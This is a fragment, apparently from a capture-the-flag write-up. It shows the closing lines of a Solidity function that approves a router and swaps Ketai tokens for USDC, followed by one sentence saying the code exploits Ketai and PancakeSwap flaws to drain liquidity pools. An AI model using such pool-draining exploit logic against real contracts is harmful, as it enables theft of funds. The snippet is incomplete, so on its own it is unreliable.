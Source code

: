 ```solidity
    challenge.ketai().approve(address(challenge.router()), type(uint256).max);
    address[] memory path = new address[](2);
    path[0] = address(challenge.ketai());
    path[1] = address(challenge.usdc());
    challenge.router().swapExactTokensForTokensSupportingFeeOnTransferTokens(
        amount, 0, path, address(this), block.timestamp
    );
}
```

This implementation exploits the vulnerabilities in the Ketai and PancakeSwap contracts to manipulate token balances and drain funds from the liquidity pools.
